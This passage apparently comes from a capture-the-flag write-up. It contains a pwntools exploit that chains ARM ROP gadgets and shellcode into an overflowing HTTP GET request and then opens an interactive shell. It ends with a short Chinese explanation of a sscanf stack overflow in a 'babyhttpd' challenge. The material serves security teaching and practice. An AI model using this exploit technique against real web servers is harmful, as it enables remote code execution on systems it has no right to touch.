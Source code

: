 ```
# .text:00061C04                 POP     {R1,PC}

r1_pc = 0x00061C04

# .fini:000646AC                 POP     {R3,PC}

r3_pc = 0x000646AC

# .text:0001D554                 BLX     R1

blx_r1 = 0x0001D554


data = ""
data += sh_jmper[4:80]
data += "b" * (140 - len(data))
data += p32(0x8A1AC)
data += "b" * (0xa4 - len(data))
data += p32(0xa4)
data += "c" * 4


data += p32(r3_pc)
data += sh_jmper[:4]

data += p32(0x00052494)

data += "d" * 0xc
data += p32(0) * 6 # dummy
data += p32(blx_r1)


data += shellcode
data += ":\r\n"

payload = 'GET /index.html?&&?size=1231?ip=' + data


p.send(payload)


p.send("B" * 100)

p.interactive()
```

![](https://hackmd.summershrimp.com/uploads/upload_c75b80835690d6deaf0918a21b180535.png)


## babyhttpd
POST中sscanf读取了`%[^&]&%*[^=]=%[^;]`，读取了两个参数，以a=1&b=2为例，v11读取到了a=1，haystack读取到了2，msg长度最大为1024，可以达到栈溢出的效果，将返回地址修改为bss地址，可以达到shellcode执行的效果。
![](https://hackmd.summershrimp.com/uploads/upload_7fda774c7c6f805800883966349503d5.png)
